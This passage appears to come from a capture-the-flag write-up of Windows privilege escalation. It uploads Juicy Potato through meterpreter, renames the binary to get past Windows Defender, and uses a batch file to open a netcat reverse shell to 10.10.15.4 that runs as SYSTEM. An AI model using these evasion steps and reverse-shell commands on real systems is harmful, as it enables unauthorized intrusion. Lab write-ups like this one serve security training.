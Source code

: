 ```
                                 [03]: dead:beef::6d25:8198:9b5f:9b4d
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.
```

### Privilege Escalation

Running the `sysinfo` command on the meterpreter session, we notice that this is a Windows Server 2016 OS, which is vulnerable to the [Rotten Potato](https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/) exploit. 

#### Juicy Potato

Juicy Potato is a variant of the exploit that allows service accounts on Windows to escalate to SYSTEM (highest privileges) by leveraging the BITS and the `SeAssignPrimaryToken` or `SeImpersonate` privilege in a MiTM attack.

We can exploit this by uploading the Juicy Potato [binary](https://github.com/ohpe/juicy-potato) and executing it. As before, we can use our meterpreter shell to do the upload and then we can use the netcat shell to execute the exploit.

```bash
meterpreter > lcd /home/username/Downloads
meterpreter > upload JuicyPotato.exe
```

**Note**: We will have to rename the Juicy Potato executable to something else, otherwise it will be picked up by Windows Defender.

```mv powershell
meterpreter > mv JuicyPotato.exe js.exe
```

We can create a batch file that will be executed by the exploit, and return a SYSTEM shell. Let's add the following contents to `shell.bat`:

```cmd
C:\inetpub\wwwroot\wordpress\wp-content\uploads>echo START C:\inetpub\wwwroot\wordpress\wp-content\uploads\nc.exe -e powershell.exe 10.10.15.4 1111 > shell.bat
```

Let's start another netcat listener:

```bash
nc -lvp 1111
```

Next, we execute the netcat shell using the following command.

```powershell
C:\inetpub\wwwroot\wordpress\wp-content\uploads>jp.exe -t * -p C:\inetpub\wwwroot\wordpress\wp-content\uploads\shell.bat -l 1337
jp.exe -t * -p C:\inetpub\wwwroot\wordpress\wp-content\uploads\shell.bat -l 1337
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 1337
......
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK

C:\inetpub\wwwroot\wordpress\wp-content\uploads>
```
